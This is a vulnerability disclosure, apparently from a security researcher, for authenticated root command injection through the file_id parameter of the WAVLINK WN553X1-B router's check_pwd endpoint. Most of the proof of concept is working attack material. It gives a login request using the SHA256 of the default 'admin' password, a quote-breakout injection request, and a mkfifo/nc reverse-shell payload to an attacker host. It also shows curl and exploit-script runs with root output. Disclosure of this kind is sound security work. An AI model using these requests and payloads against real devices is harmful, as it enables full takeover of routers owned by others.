





# WAVLINK WN553X1-B Router — check_pwd Command Injection

- Vendor: WAVLINK
- Product: WAVLINK WN553X1-B (Model WN553X3B)
- Firmware Version: V260403_2.0.0 (OpenWrt 21.02, aarch64 / MT7981)
- Vulnerability Type: Authenticated Command Injection (CWE-78)

## Overview

An authenticated command injection vulnerability was identified in the WAVLINK WN553X1-B router. An attacker with a valid session can send a crafted HTTP POST request to achieve arbitrary command execution with root privileges on the target device. The issue can be triggered via the following endpoint:

`POST /protocol.csp?fname=system&opt=check_pwd&function=get HTTP/1.1`

Successful exploitation requires the attacker to be authenticated and supply a valid session token (obtainable via the `opt=login` endpoint with the device password; factory default is `admin`).

## Vulnerability Details

The vulnerability resides in the `sub_416B50` function of the `/bin/ioos` component (the `.csp` back-end service listening on 127.0.0.1:81, behind the lighttpd front-end). The user-controlled `file_id` request parameter is passed to `snprintf` without any input validation or sanitization, and the resulting string is then forwarded to `popen` (at `0x416C5C`), which leads to OS command injection:





```
snprintf(buf, ..., "uci show ovpnclient | grep \"file_id='%s'\"", file_id);
popen(buf, "r");   // 0x416C5C
```

Because the format string embeds the user input inside **double quotes**, a `file_id` value such as `a";COMMAND;"` breaks out of the quoted string and injects an arbitrary OS command. The ioos service runs as root, so the injected command executes with root privileges.

The same unsanitized `file_id` pattern exists in multiple sibling handlers in the same binary: `ovpn_file` (`sub_4162A8`), `openvpn_cli` (`sub_416568`), `wg_file` (`sub_41A488`), `wireguard_cli` (`sub_419DA8`) and `wireguard_manual_cli` (`sub_418CC0`).

## Proof of Concept

Note: the ioos HTTP parser only processes request parameters placed in the URL query string of POST requests (the body may be left empty), and the session token is passed as the `token` URL parameter.

Step 1 — login to obtain a session token (`usrid` = SHA256 of the password, default `admin`):

```http
POST /protocol.csp?fname=system&opt=login&function=set&usrid=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1
Host: <target>
Content-Length: 0
Connection: close

```

Response:

```json
{ "opt": "login", "fname": "system", "function": "set", "token": "<32 hex chars>", "init_status": 0, "error": 0 }
```

Step 2 — send the command injection request with the token (the session token is bound to the client IP and expires after 300 seconds):

```http
POST /protocol.csp?fname=system&opt=check_pwd&function=get&file_id=a%22%3B/usr/bin/id%3E/tmp/pwn2%3B%22&token=<TOKEN> HTTP/1.1
Host: <target>
Content-Length: 0
Connection: close

```

Response:

```json
{ "opt": "check_pwd", "fname": "system", "function": "get", "error": 0 }
```

The URL-decoded `file_id` payload is `a";/usr/bin/id>/tmp/pwn2;"`, and `/tmp/pwn2` on the device then contains `uid=0(root) gid=0(root) groups=0(root)`.

A reverse shell can be obtained with the following payload (busybox nc has no `-e`, so a mkfifo pipe is used; note that `nc` resides at `/usr/bin/nc` in this firmware):

```
a";rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/usr/bin/nc <LHOST> <LPORT> >/tmp/f;"
```

## Impact

An authenticated attacker can inject arbitrary shell commands through the `file_id` parameter and execute them with **root** privileges (the ioos service runs as root), resulting in full compromise of the device. Combined with the factory-default credential `admin` (hardcoded in `/etc/config/winstar`), the authentication barrier is effectively absent on devices where the password was never changed.

## Reproduction Result

The vulnerability was dynamically verified against the firmware emulated with qemu-aarch64 + chroot (lighttpd front-end on 80/443 proxying to ioos on 127.0.0.1:81):



```
$ python3 exp_checkpwd.py http://192.168.1.6 -c "id; uname -m"
[+] 登录成功 token=C4A9AE2E7CA7B69BDF736B864D795613
uid=0(root) gid=0(root) groups=0(root)
aarch64
```

Direct verification with curl against the emulated firmware:


```
$ curl -X POST "http://<target>/protocol.csp?fname=system&opt=check_pwd&function=get&file_id=a%22%3B/usr/bin/id%3E/etc/lighttpd/www/.pwn_out2.txt%3B%22&token=<TOKEN>"
{ "opt": "check_pwd", "fname": "system", "function": "get", "error": 0 }

$ curl http://<target>/.pwn_out2.txt
uid=0(root) gid=0(root) groups=0(root)
```
